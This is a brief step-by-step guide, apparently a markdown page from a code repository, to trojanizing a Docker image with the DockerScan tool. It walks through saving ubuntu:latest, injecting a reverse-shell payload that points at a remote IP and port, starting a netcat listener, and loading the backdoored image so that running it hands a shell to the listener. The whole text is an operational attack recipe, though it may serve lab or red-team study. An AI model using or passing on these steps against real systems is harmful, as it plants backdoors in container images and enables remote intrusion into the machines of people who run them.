


# **`Trojanize Docker - DockerScan`**

Step 1: Pull and save an image (`ubuntu:latest`) that is to be trojanized.
 
        docker pull ubuntu:latest && docker save ubuntu:latest -o ubuntu-latest

Step 2: Fetch VM IP by running ifconfig

Step 3: Trojanize the saved docker file by running `dockerscan image modify trojanize ubuntu-latest -l <REMOTE_MACHINE_IP> -p <PORT> -o ubuntu-latest-trojanized`. It will create a `.tar` file.

 
Step 4: Once the command on Step 3 has been run, a `netcat` command is returned. Copy and paste the command in another tab.

Step 5: Load the trojanized docker `.tar` file by running `docker load -i ubuntu-latest-trojanized.tar`

Step 6: When the trojanized docker is run, the listener should have reverse-shell access to the container

